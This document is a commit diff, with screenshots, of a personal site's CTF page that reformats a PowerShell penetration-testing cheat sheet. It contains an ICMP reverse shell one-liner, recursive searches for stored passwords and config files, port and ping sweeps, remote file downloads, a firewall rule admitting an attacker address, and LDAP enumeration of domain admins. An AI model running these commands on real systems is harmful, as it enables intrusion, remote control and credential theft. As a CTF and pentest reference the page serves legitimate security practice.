

Before and after one commit to braaaax/braaaax.github.io, a Jekyll site: the page built from ctf.md, in a window 1280 px wide and 1400 px high, scrolled down 1492 px. Shown: the whole window, without its empty margins (248-1099 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
updated site

````diff
--- a/ctf.md
+++ b/ctf.md
@@ -6,230 +6,210 @@ permalink: /ctf/
 
 PowerShell
 
-Start a session without a profile and bypassing no execution
-
-`powershell.exe -nop -exec bypass`
+```powershell
+# Start a session without a profile and bypassing no execution
+powershell.exe -nop -exec bypass
 
 
-Get a directory listing (ls, dir, gci):
-
-`PS C:\> Get-ChildItem`
+#Get a directory listing (ls, dir, gci):
+Get-ChildItem
 
 
-Copy a file (cp, copy, cpi):
-
-`PS C:\> Copy-Item src dst`
+# Copy a file (cp, copy, cpi):
+Copy-Item src dst
 
 
-Find text within a file:
-
-`PS C:\> Select-String -path c:\users\*.txt -pattern password`
+# Find text within a file:
+Select-String -path c:\users\*.txt -pattern password
+# or
+ls -r c:\users -file | %{Select-String -path $_ -pattern password}
 
 
-`PS C:\> ls -r c:\users -file | %{Select-String -path $_ -pattern password}`
+# Display file contents (cat, type, gc):
+Get-Content file.txt
 
 
-Display file contents (cat, type, gc):
-
-`PS c:\> Get-Content file.txt`
+# Get current directory (pwd, gl):
+Get-Location
 
 
-Get current directory (pwd, gl):
-
-`PS C:\> Get-Location`
-
-Get a process listing (ps, gps):
-
-`PS c:\> Get-Process`
-
-Get a service listing:
-
-`PS C:\> Get-Service`
-
-Formatting output of a command (Format-List, fl):
-
-`PS c:\> ls | Format-List -property name`
-
-Paginating output:
-
-`PS C:\> ls -r | Out-Host -paging`
-
-Get SHA1 hash of a file:
-
-`PS C:\> Get-FileHash -Algorithm SHA1 file`
-
-Export output to CSV:
-
-`PS C:\> GetProcess | Export-Csv procs.csv`
-
-Conduct a ping sweep:
-
-`PS C:\> 1..255 | % (echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | Select-String ttl}`
-
-```
-powershell -nop -c "$ip='your_ip'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment = $true; $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes('OK'), $po); while ($true) { $ry = $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes(''), $po); if ($ry.Buffer) { $rs = ([text.encoding]::ASCII).GetString($ry.Buffer); $rt = (Invoke-Expression -Command $rs | Out-String ); $ic.Send($ip,60*1000,([text.encoding]::ASCII).GetBytes($rt),$po); } }"
-```
-
-Conduct a port scan:
-
-`PS c:\> 1..1024 | % {echo ((new-object Net.sockets.TcpClient).Connect ("10.10.10.10",$_)) "Port is open!"} 2>$null`
-
-Fetch a file via HTTP:
-
-`PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/file.exe", "file.exe")`
-
-`PS C:\> Invoke-WebRequest -Outfile C:\place\to\put http://IP/filetoget`
-
-Find files with a specific name:
-
-`PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt`
-
-`PS C:\> Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}`
-
-`PS C:\> Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue`
-
-`PS C:\> Get-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue`
-
-`PS C:\> Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"`
+# Get a process listing (ps, gps):
+Get-Process
 
 
-Get a listing of all installed Microsoft Hotfixes:
-
-`PS C:\> Get-Hotfix`
+# Get a service listing:
+Get-Service
 
 
-Navigate the Windows Registry:
-
-`PS C:\> cd HKLM:\`
-
-`PS HKLM:\> ls`
+# Formatting output of a command (Format-List, fl):
+ls | Format-List -property name
 
 
-List programs that start automatically in the registry:
-
-`PS C:\> Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\run`
-
-Convert String from ascii to Base64:
-
-`PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8GetBytes("PS Encode me!""))`
-
-NETWORKING
-
-`PS C:\> Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address`
-
-`PS C:\> Get-DnsClientServerAddress -AddressFamily IPv4 | ft`
-
-`PS C:\> Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex`
-
-`PS C:\> Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State`
-
-`PS C:\> Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse`
+# Paginating output:
+ls -r | Out-Host -paging
 
 
-List and modify the windows firewall rules:
-
-`PS C:\> Get-NewFirewallRule -all`
-
-`PS C:\> New-FirewallRule -Action Allow -DisplayName ItsaMe -RemoteAddress 10.10.10.99`
+# Get SHA1 hash of a file:
+Get-FileHash -Algorithm SHA1 file
 
 
-INFO ON CMDLETS/MODULES
-
-```
-PS C:\> Get-Help <cmdlet>
-PS C:\> Get-Help <cmdlet> -detailed
-PS C:\> Get-Help <cmdlet> -examples
-PS C:\> Get-Help <cmdlet> -full
-PS C:\> Get-Command -Module modulename
-```
+# Export output to CSV:
+GetProcess | Export-Csv procs.csv
 
 
-Get-Command supports filtering. To filter cmdlets on the verb set:
-```
-PS C:\> Get-Command Set*
-PS C:\> Get-Command –Verb Set
-
-Or on the noun process:
-PS C:\> Get-Command *Process
-PS C:\> Get-Command –Noun process
-```
+# Conduct a ping sweep:
+1..255 | % (echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | Select-String ttl}
 
 
-Piping cmdlet output to another cmdlet:
-
-`PS C:\> Get-Process | Format-List –property name`
+# icmp revshell
+powershell -nop -c "$ip='your_ip'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment = $true; $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes('OK'), $po); while ($true) { $ry = $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes(''), $po); if ($ry.Buffer) { $rs = ([text.encoding]::ASCII).GetString($ry.Buffer); $rt = (Invoke-Expression -Command $rs | Out-String ); $ic.Send($ip,60*1000,([text.encoding]::ASCII).GetBytes($rt),$po); } }"
 
 
-ForEach-Object in the pipeline (alias %):
-
-`PS C:\> ls *.txt | ForEach-Object {cat $_}`
+# Conduct a port scan:
+1..1024 | % {echo ((new-object Net.sockets.TcpClient).Connect ("10.10.10.10",$_)) "Port is open!"} 2>$null
 
 
-Where-Object condition (alias where or ?):
 
-`PS C:\> Get-Process | Where-Object {$_.name –eq "notepad"}`
+# Fetch a file via HTTP:
+(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/file.exe", "file.exe")
+
+Invoke-WebRequest -Outfile C:\place\to\put http://IP/filetoget
 
 
-Generating ranges of numbers and looping:
 
-`PS C:\> 1..10`
+# Find files with a specific name:
+Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt
 
-`PS C:\> 1..10 | % {echo "Hello!"}`
+Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}
+
+Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
+
+Get-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue
+
+Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"
 
 
-Creating and listing variables:
 
-`PS C:\> $tmol = 42`
-
-`PS C:\> ls variable:`
-
-Examples of passing cmdlet output down pipeline:
-
-`PS C:\> dir | group extension | sort`
-
-`PS C:\> Get-Service dhcp | Stop-Service -PassThru | Set-Service -StartupType Disabled`
-
-ADDING MODULES TO SESSION
-
-`PS C:\> Import-Module C:\Path\to\name.ps1`
-
-INVOKE COMMAND -ICM
-
-`PS C:\> Invoke-Command -ComputerName <name> -ScriptBlock {whoami}
-$username = 'DOMAIN\USERNAME'; $password = 'PASSWORD'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username,$securePassword; Invoke-Command -ComputerName BOX01 -Credential $credential -ScriptBlock {whoami};`
-
-GET LANGUAGE MODE
-
-`PS C:\> $ExecutionContext.SessionState.LanguageMode`
-
-x86 or x64
-
-`PS C:\> [IntPtr]::size`
-
-ENVIRONMENT VARIABLES
-
-`PS C:\> Get-ChildItem Env: | ft Key,Value`
-
-`PS C:\> $env:UserName`
-
-CONNECTED DRIVES
-
-`PS C:\> Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root`
+#Get a listing of all installed Microsoft Hotfixes:
+Get-Hotfix
 
 
-LDAP
-
-```
-PS C:\> $username = 'lab.local\LDAP'; $password = 'PASSWORD'; $DomainControllerIpAddress = 'IP'; $LdapDn = 'DC=lab,DC=local'; $dn = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$($DomainControllerIpAddress):389/$LdapDn", $username, $password); $ds = New-Object System.DirectoryServices.DirectorySearcher($dn); $ds.SearchRoot;
-    $ds.Filter ="((objectCategory=computer))"; $ds.FindAll();
-    $ds.Filter ="((objectCategory=user))"; $ds.FindAll();
-    $ds.filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,DC=lab,dc=local))"; $ds.FindAll();
-    $ds.Filter ="((name=Administrator))"; $ds.FindAll().properties;
-    $ds.Filter ="((name=Bob*))"; $ds.FindAll().properties;
-```
+# Navigate the Windows Registry:
+cd HKLM:\; ls
+Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\run`
 
 
-UAC
-```powershell
+# Convert String from ascii to Base64:
+[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8GetBytes("PS Encode me!""))
+
+
+# NETWORKING
+Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address
+
+Get-DnsClientServerAddress -AddressFamily IPv4 | ft
+
+Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex
+
+Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State
+
+Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse
+
+
+
+# List and modify the windows firewall rules:
+Get-NewFirewallRule -all
+
+New-FirewallRule -Action Allow -DisplayName ItsaMe -RemoteAddress 10.10.10.99
+
+
+
+# INFO ON CMDLETS/MODULES
+Get-Help <cmdlet>
+
+Get-Help <cmdlet> -detailed
+
+Get-Help <cmdlet> -examples
+
+Get-Help <cmdlet> -full
+
+Get-Command -Module modulename
+
+
+
+# Get-Command supports filtering. To filter cmdlets on the verb set:
+Get-Command Set*
+
+Get-Command –Verb Set
+
+# Or on the noun process:
+Get-Command *Process
+
+Get-Command –Noun process
+
+
+
+# Piping cmdlet output to another cmdlet:
+
+Get-Process | Format-List –property name
+
+
+# ForEach-Object in the pipeline (alias %):
+ls *.txt | ForEach-Object {cat $_}
+
+# Where-Object condition (alias where or ?):
+Get-Process | Where-Object {$_.name –eq "notepad"}
+
+
+# Generating ranges of numbers and looping:
+1..10
+
+1..10 | % {echo "Hello!"}
+
+
+# Creating and listing variables:
+
+$tmol = 42
+ls variable:
+
+# Examples of passing cmdlet output down pipeline:
+dir | group extension | sort
+
+Get-Service dhcp | Stop-Service -PassThru | Set-Service -StartupType Disabled
+
+# ADDING MODULES TO SESSION
+
+Import-Module C:\Path\to\name.ps1
+
+#INVOKE COMMAND -ICM
+Invoke-Command -ComputerName <name> -ScriptBlock {whoami}
+$username = 'DOMAIN\USERNAME'; $password = 'PASSWORD'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username,$securePassword; Invoke-Command -ComputerName BOX01 -Credential $credential -ScriptBlock {whoami};
+
+
+#GET LANGUAGE MODE
+$ExecutionContext.SessionState.LanguageMode
+
+
+#x86 or x64
+[IntPtr]::size
+
+
+# ENVIRONMENT VARIABLES
+Get-ChildItem Env: | ft Key,Value
+$env:UserName
+
+# CONNECTED DRIVES
+Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root
+
+
+# LDAP
+$username = 'lab.local\LDAP'; $password = 'PASSWORD'; $DomainControllerIpAddress = 'IP'; $LdapDn = 'DC=lab,DC=local'; $dn = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$($DomainControllerIpAddress):389/$LdapDn", $username, $password); $ds = New-Object System.DirectoryServices.DirectorySearcher($dn); $ds.SearchRoot;
+# ...$ds.Filter ="((objectCategory=computer))"; $ds.FindAll();
+# ...$ds.Filter ="((objectCategory=user))"; $ds.FindAll();
+# ...$ds.filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,DC=lab,dc=local))"; $ds.FindAll();
+# ...$ds.Filter ="((name=Administrator))"; $ds.FindAll().properties;
+# ...$ds.Filter ="((name=Bob*))"; $ds.FindAll().properties;
+
+
+#UAC
 $secpasswd = ConvertTo-SecureString "1234test" -AsPlainText -Force; $mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd); $computer = "BOXNAME"; [System.Diagnostics.Process]::Start("C:\temp\file.bat",$mycreds.Username,$mycreds.Password,$computer)
 ```
````
